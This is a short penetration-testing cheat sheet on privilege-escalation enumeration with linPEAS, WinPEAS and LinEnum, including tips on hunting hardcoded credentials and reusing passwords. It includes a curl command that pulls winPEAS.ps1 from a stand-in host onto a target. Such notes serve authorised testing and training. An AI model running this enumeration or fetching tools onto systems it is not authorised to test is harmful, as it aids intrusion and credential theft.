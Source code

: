 
### PEASS-ng - Privilege Escalation Awesome Scripts SUITE new generation
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q
```

WinPEAS can be found [here](https://github.com/carlospolop/PEASS-ng/releases)
```powershell
curl -o winPEAS.ps1 http://example.com/winPEAS.ps1
```

### LinEnum
https://github.com/rebootuser/LinEnum
```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts

./linenum.sh
```